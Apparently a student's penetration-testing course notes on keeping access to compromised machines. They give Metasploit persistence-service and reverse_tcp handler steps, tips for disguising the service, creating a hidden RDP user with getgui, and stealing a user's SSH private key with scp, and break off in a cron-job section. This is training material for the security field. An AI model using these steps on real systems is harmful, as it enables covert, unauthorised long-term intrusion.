 
Persistence is techniques to keep access when access is cut off
Gaining initial foothold is not enough, you need to setup and maintain persistent access to your target. 


#### Windows Persistence

##### Persistence via Services 

- identify vulnerable system you can exploit on target system 

After getting initial foothold and a meterpreter session search for **persistence_service** 

in msfconsole: 
- ``use persistence service`` (you need admin credentials for this module)
- change ``lport`` 
- in real life scenario change the service name to make sure that it blends in. 
- ``kill`` the sessions (no more sessions on target)

how to regain access with persistence? 
- restart msfconsole 
- use ``multi/handler ``
- set payload windows/meterpreter/reverse_tcp 
- set ``lhost`` and ``lport`` 
- exploit 

every time you run the handler the session is created. 



##### Persistence via RDP 

badblue_ext_overflow 
- identify vulnerable system on target 
- migrate to stable process in meterpreter 

Gain persistence: 
1. ``run getgui -e -u hacker -p hacked_123321 ``
	- getgui will check if RDP is enabled if not it will enable it and, add a user and hide it from login screen 
	- this command also provides a resource script to clean up

utilize rdp client to connect to new account created: 
- ``xfreerdp /u:hacker /p:hacked123321 /v:target_ip ``

login on screen with new credentials and open cmd (run as administrator): ``whoami /priv ``
``net user ``




#### Linux Persistence

##### Persistence via SSH keys

- Linux is deployed as a server operating system (to host applications) and as a result linux servers typically accessed remotely via services/protocol's such as ssh. 
- if ssh is enabled and running on a linux system you have compromised, you can take advantage of the ssh configuration to establish persistent access on the target system. 
- in most cases linux servers will have key-based authentication enabled for the ssh service, allowing users to access the linux system remotely without the need for password 
- After gaining access to a linux system, we can transfer the ssh private key of a specific user account to our system and use that ssh private key for all future authentication and access. 




ssh student@target_ip 
password: password 

- login into compromised account with ssh:  student@target_ip 
- ls -al 

we have two interesting folders: .ssh folder and a binary folder called wait. 
- cat wait  (when you are done delete the wait binary)
- cd .ssh/  (here we will find the private key, (generated with sshgn)), cat the content of the private key
- cat the other content in the ssh file 
- copy id_rsa onto our system with ``scp`` which will allow us to download a file from the target system to our kali system, via ssh: ``scp student@target_ip:~/file_you_want_to_download ``
			 - ``~/.ssh/id_rsa .``  (the ``.`` means you want to copy it to the directory you currently in)

- give the id_rsa file the permissions that typically associated with private keys : ``chmod 400 id_rsa ``

Log back into the system with ssh and compromised account
- when you are SUPER SURE that you downloaded the rsa key you remove the wait file: ``rm wait `` which will reset the connection. 

Even when the user changes the password, we can still login using the **rsa private key.** 
- ``ssh  -i name_privatekey_file user@target_ip ``
``   ssh -i id_rsa student@targetip``









##### persistence via Cron Jobs 

- Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule
- An application or script that has been configured to be run repeatedly with Cron is known as a Cron job. 
- We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system. 
- anatomy of a cron job: ![[Pasted image 20230925152000.png]]
first 5 fields are used to specify the time and date 